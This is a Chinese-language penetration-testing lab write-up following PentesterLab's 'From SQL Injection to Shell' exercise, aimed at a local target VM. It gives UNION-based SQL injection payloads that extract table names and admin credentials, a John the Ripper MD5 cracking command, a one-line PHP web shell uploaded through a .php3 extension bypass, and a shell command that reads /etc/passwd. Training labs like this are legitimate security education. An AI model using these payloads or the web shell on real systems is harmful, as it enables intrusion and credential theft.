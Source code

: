 ﻿##  从SQL注入到Shell

### 实验目的
在基于PHP的网站中使用SQL注入并使用它来访问管理页面，用这种访问，在目标服务器上获得代码执行。

### 实验步骤
- 指纹：收集有关Web应用程序和正在使用的技术的信息
- SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息
- 访问管理页面和代码执行：访问操作系统和运行命令的最后一步

### 实验环境

攻击者主机和靶机均为NAT网络
靶机使用下载的镜像
攻击者主机IP：10.0.2.22
靶机IP：10.0.2.21

![](image/1.PNG)

![](image/2.PNG)

### 实验过程

#### 1.收集指纹

* http请求测试
  * 攻击者主机浏览器设置代理

  ![](image/3.PNG)

  * 浏览器访问http://10.0.2.21

  ![](image/4.PNG)

  * burpsuite劫持

  ![](image/5.PNG)
  上图可以看出靶机使用的网络服务器、以及php版本信息

* https请求测试
  * 请求失败
  ![](image/6.PNG)

  * 使用工具wfuzz蛮力检测Web服务器上的目录和页面
    * 使用命令
    ```
    $ python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.21/FUZZ
    ```
    其中
    ```
    -c 表示高亮显示
    -z file，wordlist / general / big.txt 告诉wfuzz使用文件wordlists / general / big.txt作为字典来强制远程目录的名字。
    --hc 404 告诉wfuzz忽略响应，如果响应代码是404（Page not found）
    http：// vulnerable / FUZZ 告诉wfuzz用字典中的每个值替换URL中的FUZZ这个词。
    ```

    `没有成功`

#### 2.SQL注入的检测和利用

##### SQL注入检测
* SQL简介
 * retrieve information using the SELECT statement; `检索`
 * update information using the UPDATE statement; `修改`
 * add new information using the INSERT statement;`增加`
 * delete information using the DELETE statement.`删除`


* 发现sql漏洞存在：

  请求10.0.2.21/cat.php?id=3' 网页报错提示语法错误(单引号)以及数据库应为Mysql

  ![](image/8.PNG)

* 基于整数测试 用户提供的值被视为一个整数直接回显到SQL请求中

  ![](image/9.PNG)
  ![](image/10.PNG)

* 利用UNION开发SQL注入
  * 获取数据库版本号

  `.php?id=1 UNION SELECT 1,@@version,3,4`

  ![](image/11.PNG)

  * 获取系统当前用户名

  `.php?id=1 UNION SELECT 1,current_user(),3,4`

  ![](image/12.PNG)

  * 获取当前数据库名

  `.php?id=1 UNION SELECT 1,database(),3,4`

  ![](image/13.PNG)

##### 通过查看information_schema数据库获取更多信息

  >在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。


* 检索数据库中所有表名

  `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

  ![](image/14.PNG)

* 检索数据库中所有列名

  `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

  ![](image/15.PNG)

* 查看表名和列名的对应关系

  `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`

  ![](image/16.PNG)

* 获取管理员密码

  `1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;`

  ![](image/17.PNG)

##### 破解密码

`8efe310f9ab3efeae8d410a8e0166eb2`

* 方法一：网上在线破解

  ![](image/18.PNG)

* 方法二：John the ripper密码破解工具

  ```
  命令：
  john password --format=raw-md5 --wordlist=dico --rules
  参数：
  password 告诉 John 什么文件包含密码的哈希值
  --format=raw-md5 告诉 John 密码哈希是 raw-md5 格式
  --wordlist=dico 告诉 John 使用文件 dico 作为字典
  --rules 告诉 John 尝试遍历每个可用的单词
   ```
  ![](image/19.PNG)

两种方法解密出的结果都是`P4ssw0rd`

####  3.访问管理页面和代码执行

* 根据破解的密码和用户名进入管理界面
![](image/20.PNG)

* 创建php脚本后点击上图界面的右侧`New Picture`按钮上传脚本文件
```php
<?php
system($_GET['cmd']);
?>
```
  * 直接上传php文件会显示失败因为不支持php文件的上传，将文件后缀名改为.php3之后可以成功上传
  ![](image/21.PNG)
  ![](image/22.PNG)

* 利用cmd执行任意命令利用脚本
  * 访问http：//vulnerable/admin/uploads/shell.php3？cmd = uname将在操作系统上运行命令uname并返回当前内核。
  ![](image/23_1.PNG)
  ![](image/23.PNG)

  * ls获取当前目录的内容
  ![](image/24.PNG)

  * 获取靶机系统用户列表
  `cat /etc/passwd`
  ![](image/25.PNG)
  ![](image/25_1.PNG)

####  参考资料

>From SQL Injection To Shell指导书https://pentesterlab.com/exercises/from_sqli_to_shell/course
